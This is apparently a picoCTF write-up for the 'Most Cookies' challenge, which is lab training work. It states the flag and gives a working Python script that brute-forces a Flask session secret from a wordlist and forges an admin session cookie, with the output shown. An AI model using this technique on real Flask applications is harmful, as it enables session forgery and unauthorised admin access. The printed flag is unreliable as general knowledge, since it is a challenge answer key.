 # Most Cookies
__Flag__:`picoCTF{pwn_4ll_th3_cook1E5_5f016958}`

__Solution__: Confusing challenge for me. So this challenge deals with flask cookies. For example our session cookie:`eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.ZyrxZg.sIwo7Z59uyO8iKRtWLMNolWwpgw`.
Now this cookie is base 64 encoded, so if you decode it you will get: `very auth: blank`. Our goal here, and the way to get the flag is to set `very auth` to `admin`. However, we cannot do that. The thing is the second part of the cookie is signed by an algorithm using a secret key, and without finding that secret key, the server will not accept the cookie. 

Now, the wordlist for the secret key is given in the `server.py` file. Using a python script, we can find the secret key and thus, the admin cookie which we will input.
```
import hashlib
from itsdangerous import URLSafeTimedSerializer
from itsdangerous.exc import BadTimeSignature
from flask.sessions import TaggedJSONSerializer
def flask_cookie(secret_key, cookie_str, operation):
    # This function is a simplified version of the SecureCookieSessionInterface: https://github.com/pallets/flask/blob/020331522be03389004e012e008ad7db81ef8116/src/flask/sessions.py#L304.
    salt = 'cookie-session'
    serializer = TaggedJSONSerializer()
    signer_kwargs = {
        'key_derivation': 'hmac',
        'digest_method': hashlib.sha1
    }
    s = URLSafeTimedSerializer(secret_key, salt=salt, serializer=serializer, signer_kwargs=signer_kwargs)
    if operation == "decode":
        return s.loads(cookie_str)
    else:
        return s.dumps(cookie_str)

# The list of possible secret keys used by the app.
possible_keys = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]

# An encoded cookie pulled from the live application that can be used to guess the secret key.
cookie_str = "eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.Zyro9w.RZkvSmhhFTnRR7SbIK_n5pt9wyM"

# For each possible key try to decode the cookie.
for possible_secret_key in possible_keys:
    try:
        cookie_decoded = flask_cookie(possible_secret_key, cookie_str, "decode")
    except BadTimeSignature:
        # If the decoding fails then try the next key.
        continue
    secret_key = possible_secret_key
    # Break the loop when we have the corret key.
    break

print("Secret Key: %s" % secret_key)

# The admin cookie has the `very_auth` value set to `admin`, which can be seen on line 46 of the server.py code.
admin_cookie = {"very_auth": "admin"}
# Encode the cookie used the `SecureCookieSessionInterface` logic.
admin_cookie_encoded = flask_cookie(secret_key, admin_cookie, "encode")

print("Admin Cookie: %s" % admin_cookie_encoded)

```
```
Secret Key: gingersnap
Admin Cookie: eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.ZyrwJw.ubUbLt-OSVdMFv2c6MsAr9cRaRc
```

<img width="561" alt="{F5C1BF0B-29FB-4C48-BF76-C625D5BA18A5}" src="https://github.com/user-attachments/assets/161ea9c8-4db1-4c95-9764-999715af79e5">
